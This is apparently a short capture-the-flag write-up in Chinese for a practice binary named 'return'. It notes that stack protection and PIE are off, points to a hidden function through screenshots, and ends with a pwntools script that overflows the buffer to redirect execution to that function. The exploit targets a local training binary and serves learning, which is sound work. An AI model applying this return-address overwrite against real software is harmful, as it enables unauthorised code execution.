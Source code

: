 首先查看安全選項
![image](https://user-images.githubusercontent.com/91378841/146903728-818a3688-f6e4-42f4-8e54-8dd633c7f32c.png)   
發現到Stack, PIE是關的
嘗試執行
![image](https://user-images.githubusercontent.com/91378841/146903667-27132cf7-5ae6-43a8-a55d-0c3af5a99edc.png)  
發現特別的function
![image](https://user-images.githubusercontent.com/91378841/146903970-358849cf-28dc-4e65-9253-c883e86310b4.png)   
![image](https://user-images.githubusercontent.com/91378841/146904478-b27b312f-c850-464a-852a-cd59dc895099.png)   
![image](https://user-images.githubusercontent.com/91378841/146904424-5cd12502-65dc-4218-b4c1-f7f0d07a2161.png)   
於是我們撰寫exploit code
```python
from pwn import *
context.arch = "amd64"
r = process("./return")
r.recvline()
r.sendline(b'a'*(0x30+8) + p64(0x4006b6))
r.interactive()  
```


